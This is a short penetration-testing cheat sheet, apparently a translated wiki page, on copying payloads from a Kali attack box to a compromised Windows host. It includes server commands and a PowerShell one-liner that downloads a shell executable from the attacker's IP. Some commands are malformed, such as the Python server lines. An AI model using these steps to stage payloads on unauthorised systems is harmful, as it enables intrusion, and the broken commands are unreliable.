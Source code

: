 # Transfiriendo datos \(traducir\)

Often times on an engagement I find myself needing to copy a tool or a payload from my Kali linux attack box to a compromised Windows machine.

I’m putting this post together as a “cheat sheet” of sorts for my favorite ways to transfer files.

For purposes of demonstration, the file I’ll be copying over using all these methods is called met8888.exe and is located in /root/shells.

## HTTP

Downloading files via HTTP is pretty straightforward if you have access to the desktop and can open up a web browser, but it’s also possible to do it through the command line as well.

### **Starting the Server**

#### **APACHE**

The two ways I usually serve a file over HTTP from Kali are either through Apache or through a Python HTTP server.

To serve a file up over Apache, just simply copy it to /var/www/html and enable the Apache service. Apache is installed by default in Kali:

`cp met8888.exe /var/www/html  
service apache2 start`

#### **PYTHON**

The other option is to just start a Python webserver directly inside the shells directory. This only requires a single line of Python thanks to Pythonâ€™s SimpleHTTPServer module:

`python -m simplehttpserver  
#or  
python http.server`

### **Downloading the files**

If you have desktop access, simply browse to `http://YOUR-KALI-IP/shell8888.exe` and use the browser to download the file.

If you only have command line access \(e.g. through a shell\), downloading via HTTP is a little trickier as there’s no built-in Windows equivalent to `curl` or `wget`. The best option is to use PowerShell’s WebClient object:

`Powershell (new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')`  


## FTP

Another option to transfer files is FTP. Windows has a built in FTP client at `C:\Windows\System32\ftp.exe` so this option should almost always work.
